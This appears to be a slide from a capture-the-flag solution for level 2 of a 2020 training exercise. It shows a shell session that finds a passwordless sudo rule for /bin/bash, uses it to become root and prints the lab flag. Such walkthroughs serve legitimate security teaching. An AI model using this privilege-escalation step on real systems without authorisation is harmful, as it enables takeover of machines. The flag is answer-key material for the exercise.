

CORRECTION / Niveau 2

level2@clusir-ceh-20200212:~$ ls -a
.  ..  .bash_logout  .bashrc  .profile
level2@clusir-ceh-20200212:~$ sudo -l
User level2 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /bin/bash
level2@clusir-ceh-20200212:~$ sudo /bin/bash

root@clusir-ceh-20200212:/home/level2# cat /root/flag
${CLUSIRceh2020|UcKAiLI}